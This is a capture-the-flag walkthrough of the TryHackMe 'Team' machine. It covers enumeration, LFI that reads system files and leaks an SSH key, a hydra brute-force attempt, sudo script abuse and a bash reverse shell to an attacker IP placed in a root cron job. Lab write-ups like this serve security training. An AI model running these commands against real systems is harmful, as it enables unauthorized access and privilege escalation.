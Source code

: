 # [Team][1]
Beginner friendly boot2root machine

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/open_ports.jpg)

Looks like we have three ports open: `21, 22, 80`

> Let's check the webpage as port 80 is open. Well its just the Apache Server Default Page. Nothing much really.

I tried different things, didn't find much:

- :no_good: Nothing on GoBuster  
- :no_good: Nothing using enum4linux  

Then I checked the source code and found something interesting in the TITLE.

![Source Code](images/source_code.jpg)
> It says to add **team.thm** to the HOSTS file.

![Add to HOSTS](images/add_to_host.jpg)
> I checked the link in the browser with `team.thm`. It gives me a google search results. But on the TOP is says go to the website, so I did. The result was fascinating.

![Different Webpage](images/different_webpage.jpg)
> I don't know about you guys! But I was little surprised with the result. Therefore, I did some search and found this is called ***Virtual Host Routing***.

So with a new domain I tried to run the GoBuster Again: `gobuster dir -u http://team/thm -w /var/share/wordlists/dirb/common.txt -x txt,php,html`

![GoBuster Results](images/gobuster.jpg)
> *robots.txt* file looks interesting so I checked the file in the browser `team.thm/robots.txt`. Huh! Just a four letter word 'dale'. Well it can be username.

As through Nmap scan we know that ssh port is open. We can now bruteforce `hydra -l dale -P rockyou.txt ssh://<IP>`
> I waited for like hours but didn't found anything  :sob:

Let's try WFUZZ to check for subdomains. `wfuzz -c -u http://team.thm -H "Host:FUZZ.team.thm" -w <wordlist>`

[Wordlist][5] I used is from SecLists. Also, we you are not sure of this commands like GoBuster and WFUZZ check [Advent Of Cyber 2][4] on TryHackMe (Day 4).

>When I tried to run the command there were two many results. So I stopped and add `--hw 977` as most of the files has this word counts.

![WFUZZ](images/wfuzz.jpg)

> Seems like we found subdomain `dev`. So this is what HINT was about. Let's add the subdomain to HOSTS file and check the site.

![Adding Subdomain](images/add_subdomain_host.jpg)

I added `dev.team.thm` and `www.dev.team.thm`.

![Checking Subdomain](images/dev_web_result.jpg)

Clicking on the links takes us to another page.

![Click Link](images/further_investigate.jpg)

Seems like a script is running and a `page` variable. Wonder if the HINT was about this too  :innocent:.

![User Flag](images/user_flag.jpg)
> BAAAAM! We got the user flag. We know that `dale` is a user and the flag can be in dale's root directory.

We can try for LFI here, FIRE UP your BurpSuite.
1. Capture the Request
2. Send it to intruer

![BurpSuite](images/burp_intruder.jpg)

3. Select payload. For this I used [Wordlist][3] from PayloadsAllTheThings.

As the port `21, 22` are open. I first looked for the file:
- /etc/ssh/ssh_config
- /etc/ssh/sshd_config
- /etc/vsftp.config

After looking through this files. I found **SSH Key** of DALE in `sshd_config` file. We have a SSH Key. Copy the content from `----BEGIN..` and paste in the file. I named the file `id_rsa` (this is the general name used). Use `chmod 600 id_rsa` (this is the general permissions of a SSH Key). Connect using `ssh -i id_rsa dale@<IP>`

![Got SSH](images/got_ssh.jpg)

BOOM! We got the access. Now first thing I do is check for sudo list commands. That can be done using `sudo -l`

![Sudo](images/sudo_l.jpg)

There is a file which can be run using `gyles` user. Let's check the content of the file.

![Content](images/cat_file.jpg)

Seems like a file which takes input from the user. Specially ***$error*** variable seems to interact with SHELL. What if we give input `/bin/bash`.


![Run Rights](images/run_rights.jpg)

Run the file with `gyles` rights, so that we can get access to that user.

![Bash input](images/bin_bash.jpg)

We can work with this as a shell. However, I learnt something like ***Shell Stabilization*** in [Advent of Cyber 2][4] (Day 24)

Run command -> `python -c 'import pty;pty.spawn("/bin/bash")'`

![Shell Stable](images/python_run.jpg)
> BAAM! We got stable shell as `gyles`. We didn't have the password of this account. So `sudo -l` is not a good idea.

I was kinda in trouble here however I had [linPEAS][6] to rescue.

Fireup another shell and transfer `linpeas.sh` to the machine using `scp -i id_rsa <location_in_your_pc> dale@10.10.7819:.`.

![File Transfer](images/linpeas_trasnfer.jpg)
> This will transfer the file to the home directory of `dale`.

Let's run the file and see what kind of results we have.

![Run LinPEAS](images/execute_linpeas.jpg)

There is a lot of information. But we are interested in the lines with RED color.

- User is in **admin** group.
- sudo version is **1.8.21p2**.
- /usr/local/bin
  - It is writeable directory and has a file
  - In **cron jobs** I see the file `main_backup.sh` which is in the same dir.
- /var/backups/www/team.thm/scripts/scripts.old

![File Found](images/file_found.jpg)
> Seems like a bash command and this file can be edited, as `gyles` is
 in `admin` group. Also, we know that this file runs as `root` (cronjobs` found via *linPEAS*).

 Therefore, we can add the famous bash one liner to get a shell as `root`.
 - Open the file using `nano main_backup.sh`
 - Add the Bash CMD -> `bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1`.
 - Press `Ctrl+X`, then `Y` and then ENTER.

 ![Bash Command](images/verify.jpg)

Start a listner using `nc -lvnp 4444`

![Listener](images/listener.jpg)

Wait for a while and you will have a shell as a `root`

![Root Access](images/root_access.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/teamcw
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt
[4]: https://tryhackme.com/room/adventofcyber2
[5]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt
[6]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
